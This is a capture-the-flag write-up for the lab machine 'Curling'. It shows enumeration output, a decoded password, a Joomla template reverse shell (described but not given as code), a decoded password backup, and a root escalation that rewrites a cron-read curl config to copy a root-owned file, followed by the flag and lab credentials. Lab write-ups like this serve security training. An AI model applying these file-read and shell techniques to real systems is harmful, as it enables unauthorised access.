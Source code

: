 # Curling
>Author : Xyan1d3
>Date : 12th July 2021
>IP : 10.10.10.150
>OS : Linux
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jul 12 18:27:16 2021 as: nmap -sC -sV -v -oN nmap/curling 10.10.10.150
Nmap scan report for 10.10.10.150
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/curling]
└──╼ # gobuster dir -u http://10.10.10.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.out -x php,txt -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.150/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2021/07/12 18:53:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]
/index.php            (Status: 200) [Size: 14270]
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/]
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]    
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/]
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]    
/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/] 
/README.txt           (Status: 200) [Size: 4872]
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]     
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/] 
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]       
/LICENSE.txt          (Status: 200) [Size: 18092]
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]   
/secret.txt           (Status: 200) [Size: 17]
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 310] [--> http://10.10.10.150/cli/]
```

We see that we have a `secret.txt`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/curling]
└──╼ # curl http://10.10.10.150/secret.txt
Q3VybGluZzIwMTgh
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/curling]
└──╼ # curl -s http://10.10.10.150/secret.txt |base64 -d ;echo
Curling2018!
```

# Initial FootHold
Now, Lets going to the `joomla` Administrator page `Floris` and password of `Curling2018!`.
We could go to templates and put an reverse shell on the theme.
![[Pasted image 20210712191657.png]]
And, hit the template preview to get a shell back as the user `www-data`.


# User Escalation
We visit the `/home/floris` directory and find out that we have a `password_backup`.
```python
www-data@curling:/home/floris$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```
![[Pasted image 20210712193631.png]]

We decrypt the txt to get the password `5d<wdCbdZu)|hChXll`.
We use this credential to `su` into the `floris` user.

# Root Escalation
```python
floris@curling:~/admin-area$ ls -l
total 20
-rw-rw---- 1 root floris    25 Jul 12 14:41 input
-rw-rw---- 1 root floris 14242 Jul 12 14:41 report
floris@curling:~/admin-area$ cat input 
url = "http://127.0.0.1"

```

We see that we have a `input` file which is writable by our user `floris`.
There is a `cron` running on the box with will do a `curl -K` on this file.
```python
url = "file:///root/root.txt"                      
output = "/dev/shm/magisk.txt"
```

We wait for it to run and get the `root.txt` on the `/dev/shm/magisk.txt`.

## Getting root Flag
```python
floris@curling:/dev/shm$ ls -l
total 4
-rw-r--r-- 1 root root 33 Jul 12 14:34 magisk.txt
floris@curling:/dev/shm$ cat magisk.txt 
82c198ab6fc5365fdc6da2ee5c26064a
```
# Credentials
|Username|Password|
|--|--|
|Floris|Curling2018!|